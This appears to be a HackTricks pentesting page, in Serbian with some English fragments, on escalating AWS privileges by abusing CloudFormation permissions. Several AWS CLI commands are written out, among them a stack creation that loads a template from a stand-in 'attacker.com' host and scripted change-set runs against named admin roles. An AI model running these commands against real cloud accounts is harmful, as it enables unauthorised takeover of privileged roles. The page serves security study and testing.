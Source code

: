 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Za više informacija o cloudformation pogledajte:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Napadač sa ovim dozvolama **može eskalirati privilegije** kreiranjem **CloudFormation steka** sa prilagođenim šablonom, hostovanim na njihovom serveru, da **izvrši akcije pod dozvolama određenog uloga:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na sledećoj stranici imate **primer eksploatacije** sa dodatnom dozvolom **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Potencijalni uticaj:** Privesc na servisnu ulogu cloudformation-a koja je navedena.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

U ovom slučaju možete **zloupotrebiti postojeći cloudformation stack** da ga ažurirate i eskalirate privilegije kao u prethodnom scenariju:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` dozvola se može koristiti da **dajte sebi `UpdateStack` dozvolu** nad stekom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je navedena.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ako imate ovu dozvolu, ali **nemate `iam:PassRole`**, i dalje možete **ažurirati stekove** koji se koriste i zloupotrebiti **IAM uloge koje su već povezane**. Proverite prethodni odeljak za primer eksploatacije (samo nemojte navoditi nijednu ulogu u ažuriranju).

The `cloudformation:SetStackPolicy` dozvola se može koristiti da **dajte sebi `UpdateStack` dozvolu** nad stekom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je već povezana.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napadač sa dozvolama da **prođe ulogu i kreira & izvrši ChangeSet** može **kreirati/ažurirati novi cloudformation stek i zloupotrebiti cloudformation servisne uloge** baš kao sa CreateStack ili UpdateStack.

Sledeća eksploatacija je **varijacija**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) koristeći **ChangeSet dozvole** za kreiranje steka.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti za **dodeljivanje sebi `ChangeSet` dozvola** nad stekom i izvršavanje napada.

**Potencijalni uticaj:** Privesc na cloudformation servisne uloge.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ovo je kao prethodna metoda bez prosleđivanja **IAM uloga**, tako da možete samo **zloupotrebiti već pridružene**, samo izmenite parametar:
```
--change-set-type UPDATE
```
**Potencijalni Uticaj:** Privesc na cloudformation servisnu ulogu koja je već povezana.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napadač bi mogao da zloupotrebi ove dozvole da kreira/aktualizuje StackSets kako bi zloupotrebio proizvoljne cloudformation uloge.

**Potencijalni Uticaj:** Privesc na cloudformation servisne uloge.

### `cloudformation:UpdateStackSet`

Napadač bi mogao da zloupotrebi ovu dozvolu bez passRole dozvole da ažurira StackSets kako bi zloupotrebio povezane cloudformation uloge.

**Potencijalni Uticaj:** Privesc na povezane cloudformation uloge.

## Reference

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}

